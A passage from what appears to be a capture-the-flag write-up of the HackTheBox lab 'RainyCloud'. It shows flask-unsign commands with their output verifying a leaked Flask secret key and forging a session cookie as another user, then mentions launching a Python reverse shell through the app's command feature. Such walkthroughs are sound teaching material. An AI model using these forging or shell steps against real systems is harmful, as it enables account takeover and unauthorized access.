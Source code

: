 
#### Cookie Generation

I’ll notice that when I log into the website as gary, there’s a `session`
cookie that gets set. Firefox dev tools breaks it out a bit:

![image-20230214102641081](https://0xdfimages.gitlab.io/img/image-20230214102641081.png)

With three parts of base64-encoded data separated by `.`, that looks like a
JWT or a Flask cookie. Given the fact that this web application is written in
Flask, I’ll start there. [flask-unsign](https://github.com/Paradoxis/Flask-
Unsign) is a tool for Flask cookies. I can check if the secret key I leaked
works with the cookie by passing that as the wordlist to the `--unsign`
command:

    
    
    oxdf@hacky$ flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-uqBA.o46_JCuR7NsHaRVAbUnwdhaoUfI' -w <( echo "f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67" )
    [*] Session decodes to: {'username': 'gary'}
    [*] Starting brute-forcer with 8 threads..
    [+] Found secret key after 1 attempts
    'f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67'
    

I’m using the `<( )` Bash syntax to have the results of what’s in the middle
be handled as if it’s in a file. It matches.

With the secret I can craft cookies for any use I want. I already enumerated
the users, and I’ve noticed that jack has a container running named Secrets.
I’ll create a cookie as jack:

    
    
    oxdf@hacky$ flask-unsign --sign --cookie "{'username': 'jack'}" --secret "f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67"
    eyJ1c2VybmFtZSI6ImphY2sifQ.Y-vWgA.jUSvqhy4bQg1sgdiag_VgV_f_ec
    

I’ll add that cookie to Firefox for `rainycloud.htb` and refresh the page to
be logged in as jack with access to the “secrets” container:

![image-20230214134651354](https://0xdfimages.gitlab.io/img/image-20230214134651354.png)

### secrets Container

#### Shell

Now with access to the secrets container, when I run commands, they run as UID
1000. For example, if I “Execute Command” and put in `id`, it returns
`uid=1000 gid=1000`. That’s different than gary’s container, which showed UID
1337 (at least for “Execute Command” - See Beyond Root).

Just like with the previous container, secrets is running alpine-python, so
I’ll grab a Python reverse shell from
[revshells.com](https://www.revshells.com/). It only has `python3` (no
`python`), so I’ll make sure that’s correct and send it as a “Execute Command
(background)”, getting a shell:
